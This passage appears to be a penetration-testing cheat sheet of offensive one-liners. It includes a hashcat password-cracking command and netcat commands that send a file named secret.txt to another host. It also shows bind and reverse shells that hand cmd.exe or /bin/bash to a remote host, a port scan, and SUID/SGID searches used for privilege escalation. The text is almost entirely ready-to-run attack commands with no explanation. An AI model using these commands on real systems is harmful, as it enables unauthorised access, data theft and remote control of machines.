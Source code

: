 ### Hashcat password cracking

```
hashcat -m 400 -a 0 hash /root/rockyou.txt
```
### Netcat examples

```
c:> nc -l -p 31337
#nc 192.168.0.10 31337
c:> nc -v -w 30 -p 31337 -l < secret.txt
#nc -v -w 2 192.168.0.10 31337 > secret.txt
```
### Banner grabbing with NC

```
nc 192.168.0.10 80
GET / HTTP/1.1
Host: 192.168.0.10
User-Agent: Mozilla/4.0
Referrer: www.example.com
<enter>
<enter>
```
### Window reverse shell

```
c:>nc -Lp 31337 -vv -e cmd.exe
nc 192.168.0.10 31337
c:>nc example.com 80 -e cmd.exe
nc -lp 80

nc -lp 31337 -e /bin/bash
nc 192.168.0.10 31337
nc -vv -r(random) -w(wait) 1 192.168.0.10 -z(i/o error) 1-1000
```
### Find SUID\SGID root files

```
# Find SUID root files
find / -user root -perm -4000 -print

# Find SGID root files:
find / -group root -perm -2000 -print

# Find SUID and SGID files owned by anyone:
find / -perm -4000 -o -perm -2000 -print

# Find files that are not owned by any user:
find / -nouser -print

# Find files that are not owned by any group:
find / -nogroup -print

# Find symlinks and what they point to:
find / -type l -ls
```
### Python shell
